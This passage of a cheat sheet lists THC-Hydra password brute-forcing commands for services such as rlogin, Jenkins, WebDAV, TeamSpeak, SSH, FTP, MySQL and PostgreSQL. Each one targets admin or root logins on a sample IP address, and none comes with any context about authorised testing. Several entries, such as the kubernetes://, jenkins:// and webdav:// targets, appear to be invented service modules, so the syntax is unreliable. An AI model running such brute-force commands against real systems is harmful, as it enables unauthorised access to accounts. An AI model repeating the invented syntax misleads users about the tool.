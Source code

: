 17. **Rlogin**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> rlogin://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt rlogin://192.168.1.10
      ```

18. **Kubernetes**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> kubernetes://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt kubernetes://192.168.1.10
      ```

19. **Jenkins**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> jenkins://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt jenkins://192.168.1.10
      ```

20. **WebDAV**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> webdav://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt webdav://192.168.1.10
      ```

21. **TeamSpeak**
    - **Command:**
      ```bash
      hydra -l <username> -P <password list> teamspeak://<target>
      ```
    - **Example:**
      ```bash
      hydra -l admin -P passwords.txt teamspeak://192.168.1.10
      ```

---

### **Summary of Hydra Services**
| **Service**           | **Command Example**                                             | **Description**                     |
| --------------------- | --------------------------------------------------------------- | ----------------------------------- |
| SSH                   | `hydra -l admin -P passwords.txt ssh://192.168.1.10`            | SSH login brute-forcing             |
| FTP                   | `hydra -l admin -P passwords.txt ftp://192.168.1.10`            | FTP login brute-forcing             |
| HTTP/HTTPS            | `hydra -l admin -P passwords.txt http-get://192.168.1.10/login` | HTTP GET/POST brute-forcing         |
| MySQL                 | `hydra -l root -P passwords.txt mysql://192.168.1.10`           | MySQL login brute-forcing           |
| PostgreSQL            | `hydra -l postgres -P passwords.txt postgres://192.168.1.10`    | PostgreSQL login brute-forcing      |
| Telnet                | `hydra -l admin -P passwords.txt telnet://192.168.1.10`         | Telnet login brute-forcing          |